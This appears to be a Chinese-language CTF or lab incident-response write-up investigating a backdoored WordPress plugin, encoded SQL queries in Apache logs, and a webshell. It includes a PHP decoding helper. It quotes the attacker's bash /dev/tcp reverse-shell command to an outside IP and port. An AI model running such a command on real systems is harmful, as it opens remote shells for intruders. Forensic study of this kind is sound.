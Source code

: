 # 事件响应
## Web Server
### 任务
- 查找并提交存在后门插件的名称与版本号，并指出该后门的功能
- 分析并指出攻击者如何获取到应用管理员权限
- 提交上述攻击所使用的URL以及获取到管理员信息时执行的完整语句（含注释）
- 请阐述攻击者如何在获得管理员权限后，写入Webshell以提升其权限
- 查找攻击者获得写入的Webshell文件绝对路径
- 查看并提交攻击者写入的Webshell内容
- 分析反弹Shell时使用的恶意IP地址和端口
- 分析攻击者在服务器上开启的端口号及其目的
### 调查过程
在webserver中查看历史命令，计划任务，后门用户和端口，进程
存在其他的端口8024
![](attachment/Pasted%20image%2020230220121713.png)
在Web Server查看本机IP后利用同网段主机访问对应的web服务，发现为WordPress的网站，于是在本机去访问插件对应的目录进行调查
`/var/www/html/wp-content/plugins`
发现在 ==hello.php== 中存在后门代码，功能是能够进行sql查询，但是语句经过rot13和base64的加密
![](attachment/Pasted%20image%2020230219141212.png)

版本在文件开头的注释中
![](attachment/Pasted%20image%2020230219141339.png)

在/var/log/apache2 中发现有日志记录，参数名与插件后门一致
![](attachment/Pasted%20image%2020230219145338.png)
在foot-dark.php中又有命令执行相关日志
![](attachment/Pasted%20image%2020230219150410.png)

查看后发现这个页面可以进行命令执行
![](attachment/Pasted%20image%2020230219150548.png)

关于日志中的加密语句，利用php来进行解密会更加合适和快捷
```php
<?php
$file = 'log.txt';
$file_data = file_get_contents($file);
$data_array = explode("\n", $file_data);
foreach($data_array as $sql_str) {
	echo $sql_str;
	$trans = base64_decode(str_rot13(urldecode($sql_str)));
	echo $trans;
	file_put_content('out.txt',$trans.PHP_EOL, FILE_APPEND);
}
?>
```
细看解密后的log后会发现有一行看了user表，执行后效果是这样
![](attachment/Pasted%20image%2020230220121458.png)
获得用户名与密码
同样对日志中的webshell相关的日志url解码分析
![](attachment/Pasted%20image%2020230220140730.png)
反弹shell
`bash -c "bash i >& /dev/tcp/0x1d205d4/12450 0>&1"`
IP:1.210.5.212


# 数字调查取证
## Dump.raw